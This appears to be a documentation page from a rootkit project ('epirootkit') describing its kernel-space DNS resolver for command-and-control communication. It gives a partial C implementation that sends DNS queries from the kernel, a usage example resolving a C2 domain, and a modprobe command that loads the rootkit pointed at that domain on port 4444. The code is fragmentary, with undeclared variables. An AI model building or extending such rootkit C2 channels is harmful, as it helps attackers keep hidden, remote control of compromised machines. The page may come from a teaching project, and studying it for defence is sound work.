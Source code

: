 ```yaml
---
title: "DNS Resolution"
description: "Kernel-space DNS client for domain-based C2 communication"
icon: "dns"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 512
---
```




## Implementation

```c
#define DNS_SERVER_IP   0x08080808  /* 8.8.8.8 */
#define DNS_PORT        53
#define DNS_QUERY_ID    0x1234

int kernel_dns_resolve(const char *hostname, u32 *ip_addr)
{
    // Create UDP socket
    sock_create_kern(&init_net, AF_INET, SOCK_DGRAM, IPPROTO_UDP, &sock);
    
    // Build DNS query
    hdr->id = htons(DNS_QUERY_ID);
    hdr->flags = htons(0x0100);
    hdr->qdcount = htons(1);
    
    // Send query to 8.8.8.8:53
    kernel_sendmsg(sock, &msg, &iov, 1, query_len);
    
    // Parse A record response
    return parse_dns_response(response, ret, ip_addr);
}
```

Builds standard DNS queries and parses A record responses using Google DNS (8.8.8.8).

## Usage

```c
u32 resolved_ip;
int ret = kernel_dns_resolve("jules_chef_de_majeur.epirootkit.com", &resolved_ip);
if (ret == 0) {
    // Use resolved_ip for connection
}
```

## Testing

```bash
# Configure rootkit with domain instead of IP
modprobe epirootkit address=jules_chef_de_majeur.epirootkit.com port=4444

# DNS resolution happens automatically
# Check with: tcpdump -i any port 53
```

Enables dynamic C2 infrastructure using domain names instead of hardcoded IP addresses.

